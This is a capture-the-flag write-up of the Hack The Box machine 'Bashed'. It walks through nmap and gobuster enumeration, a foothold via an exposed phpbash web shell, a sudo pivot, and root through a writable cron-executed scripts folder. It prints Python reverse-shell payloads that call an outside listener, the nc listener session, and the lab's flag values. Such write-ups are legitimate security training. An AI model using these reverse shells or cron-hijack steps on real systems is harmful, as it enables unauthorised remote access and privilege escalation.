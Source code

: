 #+TITLE: HTB - Bashed
#+AUTHOR: Leonardo Tamiano

* Enum
** nmap
*** nmap -sC -sV bashed
    #+begin_example
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-19 07:59 EST
Nmap scan report for bashed (10.10.10.68)
Host is up (0.048s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap
.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
    #+end_example

*** nmap -p- bashed
    #+begin_example
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-19 07:59 EST
Nmap scan report for bashed (10.10.10.68)
Host is up (0.047s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds    
    #+end_example

** port 80 (http)
*** Vulnerability: Directory indexing is open
    http://bashed/images/

    The web server allows us to see the contents of a given directory.

*** gobuster
**** gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://bashed -x php
     #+begin_example
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/12/19 08:11:39 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 301] [--> http://bashed/images/]
/.php                 (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 302] [--> http://bashed/uploads/]
/php                  (Status: 301) [Size: 298] [--> http://bashed/php/]
/css                  (Status: 301) [Size: 298] [--> http://bashed/css/]
/dev                  (Status: 301) [Size: 298] [--> http://bashed/dev/]
/js                   (Status: 301) [Size: 297] [--> http://bashed/js/]
/config.php           (Status: 200) [Size: 0]    
     #+end_example
*** Vulnerability: Critical php code was left open to anyone
    By going into the URL
    
    http://bashed/dev/phpbash.php

    we're able to execute a php web shell. This was left by the
    developer, and everyone can access the directory

    http://bashed/dev/
* Foothold (kali -> www-data)
  By doing ~nmap~ we see a web server open

  #+begin_example
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  #+end_example

  By enumerating resources with ~gobuster~ we see the ~/dev/~ folder, and
  by going there we see a php web shell

  #+begin_example
/dev                  (Status: 301) [Size: 298] [--> http://bashed/dev/]
  #+end_example

  #+begin_example
http://bashed/dev/phpbash.php
  #+end_example

  this allows us to execute code as the user www-data.
* System Enum
** uname -a
 #+begin_example
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 #+end_example

** lsb_release -a
 #+begin_example
No LSB modules are available.
Distributor ID: Ubuntu
Description: Ubuntu 16.04.2 LTS
Release: 16.04
Codename: xenial
 #+end_example

** cat /etc/passwd
 #+begin_example
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
 #+end_example

** sudo -l as www-data
   #+begin_example
sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
   #+end_example
* Pivoting (www-data -> scriptmanager)
  First we spawn a reverse shell into the system

  #+begin_src sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.34",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  #+end_src
  
  #+begin_src sh
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
  #+end_src

  In practice.

  #+begin_example
www-data@bashed:/home/arrexel$ sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
<el$ sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'   
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
  #+end_example
  
* PrivEsc (scriptmanager -> root)
  By going into ~/~ folder we see a weird directory named ~scripts~

  #+begin_example
scriptmanager@bashed:/$ ls -lha
ls -lha
total 92K
drwxr-xr-x  23 root          root          4.0K Jun  2  2022 .
drwxr-xr-x  23 root          root          4.0K Jun  2  2022 ..
-rw-------   1 root          root           174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root          4.0K Jun  2  2022 bin
drwxr-xr-x   3 root          root          4.0K Jun  2  2022 boot
drwxr-xr-x  19 root          root          4.1K Dec 19 04:34 dev
drwxr-xr-x  89 root          root          4.0K Jun  2  2022 etc
drwxr-xr-x   4 root          root          4.0K Dec  4  2017 home
lrwxrwxrwx   1 root          root            32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root          4.0K Dec  4  2017 lib
drwxr-xr-x   2 root          root          4.0K Jun  2  2022 lib64
drwx------   2 root          root           16K Dec  4  2017 lost+found
drwxr-xr-x   4 root          root          4.0K Dec  4  2017 media
drwxr-xr-x   2 root          root          4.0K Jun  2  2022 mnt
drwxr-xr-x   2 root          root          4.0K Dec  4  2017 opt
dr-xr-xr-x 186 root          root             0 Dec 19 04:34 proc
drwx------   3 root          root          4.0K Jun  2  2022 root
drwxr-xr-x  18 root          root           500 Dec 19 04:34 run
drwxr-xr-x   2 root          root          4.0K Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager 4.0K Jun  2  2022 scripts
drwxr-xr-x   2 root          root          4.0K Feb 15  2017 srv
dr-xr-xr-x  13 root          root             0 Dec 19 05:22 sys
drwxrwxrwt  10 root          root          4.0K Dec 19 05:34 tmp
drwxr-xr-x  10 root          root          4.0K Dec  4  2017 usr
drwxr-xr-x  12 root          root          4.0K Jun  2  2022 var
lrwxrwxrwx   1 root          root            29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
  #+end_example

  If we check the directory it has a python script named ~test.py~ with the following content

  #+begin_src python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
  #+end_src

  By checking cronjobs with ~pspy64~

  https://github.com/DominicBreuker/pspy

  we see the following

  #+begin_example
2023/12/19 05:46:01 CMD: UID=0     PID=1469   | python test.py 
2023/12/19 05:47:01 CMD: UID=0     PID=1475   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
  #+end_example

  as we can see, we have a cronjob which executes the following sh code

  #+begin_src sh
cd /scripts;
for f in *.py; do
    python "$f";
done 
  #+end_src

  this scripts executes as the ~root~ user all the files ending with ~.py~
  within the folder ~/scripts~. Since as the user ~scriptmanager~ we can
  write arbitrary files into that folder, we're able to introduce a
  reverse shell named ~rev.py~

  #+begin_src python
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.34",1338));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
  #+end_src

  and then we listen for it on the endpoint provided ~10.10.14.34:1338~
  and we obtain a root shell at the end of the minute

  #+begin_example
└─$ nc -lvnp 1338                       
listening on [any] 1338 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.68] 51658
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:5d:0e brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.68/32 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:5d0e/64 scope global mngtmpaddr dynamic 
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:5d0e/64 scope link 
       valid_lft forever preferred_lft forever
  #+end_example
  
* Post Exploitation
  The cronjob registed in the machine were as follows

  #+begin_example
root@bashed:~# crontab -l
crontab -l
 * * * * * cd /scripts; for f in *.py; do python "$f"; done
  #+end_example
* Flags
** user flag
   #+begin_example
www-data@bashed:/home/arrexel# cat user.txt
649f11e6ed4c6e33405ba65634431031
   #+end_example

** root flag
   #+begin_example
# cat root.txt
f362a833d804058d4b640a32b92c14fd
   #+end_example

